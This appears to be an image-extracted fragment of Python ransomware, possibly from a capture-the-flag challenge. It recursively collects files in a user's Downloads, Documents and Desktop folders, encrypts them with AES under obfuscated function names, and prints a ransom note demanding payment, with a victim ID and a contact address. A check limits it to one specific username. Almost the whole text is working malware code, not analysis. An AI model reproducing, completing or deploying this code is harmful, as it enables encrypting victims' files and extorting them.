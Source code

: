 ```py
    cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv)
    ct = cipher.encrypt(data)
    Pkrr1fe0qmDD9nKx(filename, ct)


def w7oVNKAyN8dlWJk() -> str:
    letters = string.ascii_lowercase + string.digits
    _id = ''.join(random.choice(letters) for i in range(32))
    return _id


def print_note() -> None:
    _id = w7oVNKAyN8dlWJk()
    banner = f"\n\nPippity poppity give me your property!\n\n\t   *                  ((((\n*            *        *  (((\n\t   *                (((      *\n  *   / \\        *     *(((    \n   __/___\\__  *          (((\n\t (O)  |         *     ((((\n*  '<   ? |__ ... .. .             *\n\t \\@      \\    *    ... . . . *\n\t //__     \t// ||\\__   \\    |~~~~~~ . . .   *\n====M===M===| |=====|~~~~~~   . . .. .. .\n\t\t *  \\ \\ \\   |~~~~~~    *\n  *         <__|_|   ~~~~~~ .   .     ... .\n\t\nPOOF!\n\nDon't you speak English? Use https://translate.google.com/?sl=en&tl=es&op=translate \n\nYOU GOT TRICKED! Your home folder has been encrypted due to blind trust.\nTo decrypt your files, you need the private key that only we possess. \n\nYour ID: {_id}\n\nDon't waste our time and pay the ransom; otherwise, you will lose your precious files forever.\n\nWe accept crypto or candy.\n\nDon't hesitate to get in touch with cutie_pumpkin@ransomwaregroup.com during business hours.\n\n\t"
    print(banner)
    time.sleep(60)


def yGN9pu2XkPTWyeBK(directory: str) -> list:
    filenames = []
    for filename in os.listdir(directory):
        result = os.path.join(directory, filename)
        if os.path.isfile(result):
            filenames.append(result)
        else:
            filenames.extend(yGN9pu2XkPTWyeBK(result))

    return filenames


def main() -> None:
    username = os.getlogin()
    if username != 'developer13371337':
        exit(1)
    directories = [f"/home/{username}/Downloads",
     f"/home/{username}/Documents",
     f"/home/{username}/Desktop"]
    for directory in directories:
        if os.path.exists(directory):
            files = yGN9pu2XkPTWyeBK(directory)
            for fil in files:
                try:
                    mv18jiVh6TJI9lzY(fil)
                except Exception as e:
                    pass

    print_note()


if __name__ == '__main__':
    main()
```
